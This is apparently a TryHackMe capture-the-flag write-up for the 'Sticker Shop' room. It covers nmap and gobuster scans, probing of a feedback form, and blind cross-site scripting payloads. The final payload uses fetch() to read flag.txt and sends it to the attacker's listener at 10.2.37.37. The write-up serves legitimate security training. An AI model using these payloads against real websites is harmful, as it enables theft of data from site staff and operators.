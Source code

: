# TryHackMe-The Sticker Shop

**Scope:**

- Cross-Site Scripting (XSS)

**Keywords:**

- Directory Scan
- Cross-Site Scripting (XSS) Methods

**Main Commands:**

- `nmap -sSVC -T4 -A -O -oN nmap_result.txt -Pn -F $target_ip`
- `gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://stickershop.thm:8080/ -e -x php,txt,html -b 403,404,500,501,502,503 --random-agent -t 50`

**System Commands:**

- `'"><script src=http://10.2.37.37:8011/testfile.txt></script>`
- `<img src="http://10.2.37.37:8000/testfile.txt" />`

### Laboratory Environment

[The Sticker Shop](https://tryhackme.com/r/room/thestickershop)

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sSVC -T4 -A -O -oN nmap_result.txt -Pn -F $target_ip`

```jsx
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b2:54:8c:e2:d7:67:ab:8f:90:b3:6f:52:c2:73:37:69 (RSA)
|   256 14:29:ec:36:95:e5:64:49:39:3f:b4:ec:ca:5f:ee:78 (ECDSA)
|_  256 19:eb:1f:c9:67:92:01:61:0c:14:fe:71:4b:0d:50:40 (ED25519)
8080/tcp open  http-proxy Werkzeug/3.0.1 Python/3.8.10
|_http-title: Cat Sticker Shop
|_http-server-header: Werkzeug/3.0.1 Python/3.8.10
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.1 Python/3.8.10
|     Date: Mon, 02 Dec 2024 16:50:25 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 1655
|     Connection: close
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <title>Cat Sticker Shop</title>
|     <style>
|     body {
|     font-family: Arial, sans-serif;
|     margin: 0;
|     padding: 0;
|     header {
|     background-color: #333;
|     color: #fff;
|     text-align: center;
|     padding: 10px;
|     header ul {
|     list-style: none;
|     padding: 0;
|     header li {
|     display: inline;
|     margin-right: 20px;
|     header a {
|     text-decoration: none;
|     color: #fff;
|     font-weight: bold;
|     .content {
|     padding: 20px;
|_    .product {
```

> **HTTP Port Check**
> 

`curl -iLX GET -D response.txt http://stickershop.thm:8080`

```jsx
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.8.10
Date: Mon, 02 Dec 2024 16:50:53 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1655
Connection: close

<body>
    <header>
        <ul>
            <li><a href="/">Home</a></li>
            <li><a href="/submit_feedback">Feedback</a></li>
        </ul>
    </header>
    <div class="content">
        <h1>Welcome to the Cat Sticker Shop!</h1>
        <div class="product">
            <img src="/static/images/cat_sticker_1.png" alt="Cat Sticker 1" width="300" height="300">
            <h2>Cat Sticker 1</h2>
            <p>Price: $2.99</p>
        </div>
        <div class="product">
            <img src="/static/images/cat_sticker_2.png" alt="Cat Sticker 2" width="300" height="300">
            <h2>Cat Sticker 2</h2>
            <p>Price: $3.99</p>
        </div>

    </div>
    <br>&nbsp;&nbsp;We only sell stickers at our physical store. Please feel free to stop by!
</body>
</html>
```

> **Directory Scan & Endpoint Control Phase**
> 

`gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://stickershop.thm:8080/ -e -x php,txt,html -b 403,404,500,501,502,503 --random-agent -t 50`

```jsx
http://stickershop.thm:8080/flag.txt             (Status: 401) [Size: 25]
```

`curl -iLX GET -D response.txt http://stickershop.thm:8080/submit_feedback`

```jsx
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.8.10
Date: Mon, 02 Dec 2024 16:54:26 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2360
Connection: close

        <ul>
            <li><a href="/">Home</a></li>
            <li><a href="/submit_feedback">Feedback</a></li>
        </ul>
    </header>
<body>
    <center>
        <h2>Please submit your feedback regarding your product</h2>
        <form action="/submit_feedback" method="POST">
            <div class="container">

                <textarea placeholder="Customer feedback" name="feedback" rows="5" required></textarea><br>
                <button type="submit">Submit</button><br>
                <br>
            </div>
        </form>
    </center>
</body>
</html>
```

`curl -iLX $'POST' --data-binary $'feedback=whoami' $'http://stickershop.thm:8080/submit_feedback'` 

```jsx
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.8.10
Date: Mon, 02 Dec 2024 16:56:54 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2427
Connection: close

        <h2>Please submit your feedback regarding your product</h2>
        <form action="/submit_feedback" method="POST">
            <div class="container">

                <textarea placeholder="Customer feedback" name="feedback" rows="5" required></textarea><br>
                <button type="submit">Submit</button><br>
                Thanks for your feedback! It will be evaluated shortly by our staff<br>
            </div>
        </form>
    </center>
</body>
</html>  
```

![image.png](image.png)

> **Cross-Site Scripting (XSS) Phase**
> 

`python3 -m http.server 8000`

```jsx
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

`nano testfile.txt`

```jsx
HELLO_WORLD
```

![image.png](image%201.png)

**PAYLOAD:**

```jsx
<img src="http://10.2.37.37:8000/testfile.txt" />
```

```jsx
10.10.99.16 - - [02/Dec/2024 12:28:52] "GET /testfile.txt HTTP/1.1" 200 -
```

`python3 -m http.server 8011`

```jsx
Serving HTTP on 0.0.0.0 port 8011 (http://0.0.0.0:8011/) ...
```

![image.png](image%202.png)

**PAYLOAD:**

```jsx
'"><script src=http://10.2.37.37:8011/testfile.txt></script>
```

```jsx
10.10.99.16 - - [02/Dec/2024 12:30:11] "GET /testfile.txt HTTP/1.1" 200 -
```

![image.png](image%203.png)

**PAYLOAD:**

```jsx
'"><script>
  fetch('http://127.0.0.1:8080/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://10.2.37.37:8011/?flag=' + encodeURIComponent(data));
    });
</script>
```

```jsx
10.10.99.16 - - [02/Dec/2024 12:34:47] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
```